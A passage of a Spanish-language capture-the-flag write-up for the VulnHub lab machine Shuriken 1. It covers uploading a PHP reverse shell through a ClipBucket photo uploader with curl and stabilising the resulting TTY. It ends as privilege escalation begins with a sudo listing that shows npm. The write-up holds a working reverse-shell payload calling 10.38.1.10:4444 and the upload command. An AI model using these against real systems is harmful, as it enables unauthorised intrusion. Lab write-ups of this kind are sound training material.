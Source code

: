 ## Subida de revshell

```php
───────┬───────────────────────────────────────────────────────────────────────────────────────────────
       │ File: revshell.php
───────┼───────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.38.1.10/4444 0>&1'"); ?>
───────┴───────────────────────────────────────────────────────────────────────────────────────────────
```

```bash
> curl -F "file=@revshell.php" -F "plupload=1" -F "name=revshell.php" -u developers:9972761drmfsls "http://broadcast.shuriken.local/actions/photo_uploader.php" | jq

{
  "success": "yes",
  "file_name": "1738602253b5ad58",
  "extension": "php",
  "file_directory": "2025/02/03"
}
```

![clipbucket docs](/images/shuriken1vulnhub/clipbucketdocs.png)

![file structure](/images/shuriken1vulnhub/filestructure.png)

![revshell path](/images/shuriken1vulnhub/revshellpath.png)

## Tratamiento de la tty

```bash
script /dev/null -c /bin/bash
[ctrl+z]
stty raw -echo; fg
reset xterm
export SHELL=/bin/bash
export TERM=xterm
stty rows <num of rows> columns <num of columns>
```

## Escalada de privilegios

```bash
www-data@shuriken:/home$ sudo -l
Matching Defaults entries for www-data on shuriken:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on shuriken:
    (server-management) NOPASSWD: /usr/bin/npm
```
